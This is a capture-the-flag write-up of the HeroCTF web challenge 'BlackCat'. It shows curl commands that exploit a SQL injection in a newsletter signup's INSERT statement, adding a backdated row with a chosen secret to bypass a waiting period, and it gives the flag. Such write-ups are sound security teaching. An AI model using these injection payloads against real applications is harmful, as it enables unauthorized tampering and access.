# BlackCat

## Category

Web

## Author

Worty

## Description

```
You have heard about a new event that will take place in a secret location. At this event, there doesn't seem to be any legal conferences, and it seems to gather black hat. Find a way to get the location of this conference before the deadline.

https://blackcat.web.heroctf.fr

Format : Hero{}
Author : Worty
```

## Solve

When we arrive on the challenge, we see a page that invite us to enter our email to join the event, when we send it, we receive this :

![1](images/1.png)

So the website invite us to use curl, first, we will inspect the request to see how to forge our curl request :

![2](images/2.png)

So this give us the following curl request :

```sh
> curl https://blackcat.web.heroctf.fr/api/newsletter.php -X POST --data "email=worty@heroctf.fr"

{"ok":"Check at /api/check.php with your email as get parameter and this secret: 98e6e089107e7463f1c6 as get parameter too, to check if you've been accepted.<br>Example: https://blackcat.web.heroctf.fr/api/check.php?email=worty@blackcat.fr&secret=a32ecb08749ffeaf4e78"}
```

So let's check if we are verify !

```sh
> curl https://blackcat.web.heroctf.fr/api/check.php?email=worty@heroctf.fr&secret=98e6e089107e7463f1c6

{"err":"You have not been verified yet. You have to wait 3 days in view of your enrolment date."}
```

We have to wait 3 days, but we need the place of this event right now ! We can check for several vulnerabilities (yes there is a self-xss on this website but it's useless). After testing, we found this :

```sh
> curl https://blackcat.web.heroctf.fr/api/newsletter.php -X POST --data "email='"          

{"error":"An error occured, try again"}
```

Let's try a SQL injection :

```sh
> curl https://blackcat.web.heroctf.fr/api/newsletter.php -X POST --data "email=worty@heroctf.fr');--"

{"error":"An error occured, try again"}

> curl https://blackcat.web.heroctf.fr/api/newsletter.php -X POST --data "email=worty2@heroctf.fr','a');--"

{"ok":"Check at /api/check.php with your email as get parameter and this secret: 84e7af917d5b56d76753 as get parameter too, to check if you've been accepted.<br>Example: https://blackcat.web.heroctf.fr/api/check.php?email=worty@blackcat.fr&secret=a32ecb08749ffeaf4e78"}
```

Let's try to test the secret that the API gave us :

```sh
> curl "https://blackcat.web.heroctf.fr/api/check.php?email=worty2@heroctf.fr&secret=84e7af917d5b56d76753"

{"err":"Wrong secret"}
```

This didn't work, so we can control the secret too ! See :

```sh
> curl "https://blackcat.web.heroctf.fr/api/check.php?email=worty2@heroctf.fr&secret=a"

{"err":"You have not been verified yet. You have to wait 3 days in view of your enrolment date."}
```

What we know here ? The table contain at least two fields: email and secret. If we try to inject a new tuple of values in the insert statement with two values, this will fail, so we're missing at least 1 column.

Here, there is two ways to flag :
- Enumerate the table via the SQL injection with an error based or time based
- Understand how the app works with errors, and thus determine that the missing column is the user's registration date.

After trying some payload for the position of columns, we found the right one :

```sh
> curl https://blackcat.web.heroctf.fr/api/newsletter.php -X POST --data "email=worty3@heroctf.fr','a'),('2022-06-30','wortyflag@heroctf.fr','HNjQKAMP');--"

{"ok":"Check at /api/check.php with your email as get parameter and this secret: 937a70cfb17fe7661faa as get parameter too, to check if you've been accepted.<br>Example: https://blackcat.web.heroctf.fr/api/check.php?email=worty@blackcat.fr&secret=a32ecb08749ffeaf4e78"}

> curl "https://blackcat.web.heroctf.fr/api/check.php?email=wortyflag@heroctf.fr&secret=HNjQKAMP"    

We are glad that you participate at this very hidden conference !<br>Conferences will take place at 'blackcatjnhhyaiolppiqnbsvvxgcifuelkzpalsm.onion'
Be sure to proof that you receive this email with this sentence : Hero{y0u_b34t_bl4ckc4t_0rg4n1z3rs!!}BlackCat.
```

## Flag
Hero{y0u_b34t_bl4ckc4t_0rg4n1z3rs!!}